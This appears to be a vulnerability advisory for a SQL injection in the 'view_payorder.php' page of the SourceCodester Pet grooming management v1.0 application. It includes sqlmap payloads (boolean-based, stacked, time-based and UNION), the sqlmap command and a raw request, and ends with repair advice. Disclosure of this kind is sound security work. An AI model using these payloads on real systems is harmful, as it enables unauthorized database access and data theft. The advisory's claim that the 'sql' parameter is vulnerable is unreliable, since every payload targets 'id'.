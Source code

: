 # Pet grooming management view_payorder.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'view_payorder.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "view_payorder.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries

## Vulnerability location:

- 'sql' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=-1' AND 6723=(SELECT (CASE WHEN (6723=6723) THEN 6723 ELSE (SELECT 5877 UNION SELECT 8790) END))-- zPiI
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=-1' AND (SELECT 6039 FROM (SELECT(SLEEP(5)))dtfr)-- BPqh
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-1' UNION ALL SELECT CONCAT(0x71626b7071,0x5a654442684e456d614a66686c4b487957764d756951506e6d485952706c716e666365736449726c,0x7178707171),NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT [QUERY],NULL,NULL,NULL,NULL,NULL-- -
```


![image-20250917124758.png](./assets/image-20250917124758.png)


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /pet_grooming/admin/view_payorder.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

id=-1*
```

# Attack results


![image-20250917124934.png](./assets/image-20250917124934.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.